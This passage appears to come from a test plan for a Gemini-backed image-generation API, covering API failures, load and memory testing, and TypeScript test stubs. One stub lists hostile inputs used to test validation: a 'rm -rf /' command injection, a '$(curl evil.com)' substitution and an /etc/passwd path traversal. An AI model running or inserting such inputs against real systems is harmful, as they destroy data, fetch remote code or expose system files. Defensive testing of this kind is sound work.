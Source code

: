 #### Gemini API Failures
- Invalid API key
- Quota exceeded
- Content policy violations
- Service timeouts
- Malformed responses

### 6. ⏱️ Performance & Load Attacks
**Goal**: Identify performance bottlenecks and breaking points

#### Load Testing Scenarios
- 1000 concurrent users
- Sustained 500 RPS for 10 minutes  
- Burst traffic (0 to 1000 RPS in 5 seconds)
- Large batch requests (50 images)
- Mixed read/write workloads

#### Memory Pressure Testing
- Monitor for memory leaks
- Sharp image processing under load
- GC pressure analysis
- Heap dump analysis

---

## 🧪 Test Implementation Matrix

### Phase 1: Unit Test Arsenal
```typescript
// Input validation torture tests
describe('Input Validation Hell', () => {
  test('Prompt injection attacks', () => {
    const maliciouInputs = [
      '"; rm -rf /; "',
      '$(curl evil.com)',
      '../../../../etc/passwd',
      '\x00\x01\x02\x03',
      'A'.repeat(10000000), // 10MB string
      '{"a":'.repeat(1000) + '1' + '}'.repeat(1000)
    ];
    // Test each malicious input
  });
});
```

### Phase 2: Integration Chaos Tests
```typescript
// Concurrent chaos testing  
describe('Concurrency Hell', () => {
  test('100 simultaneous requests same scene_id', async () => {
    const promises = Array(100).fill(0).map(() => 
      makeImageRequest('same-scene-id', 'prompt')
    );
    const results = await Promise.allSettled(promises);
    // Verify no race conditions, data corruption, or crashes
  });
});
```
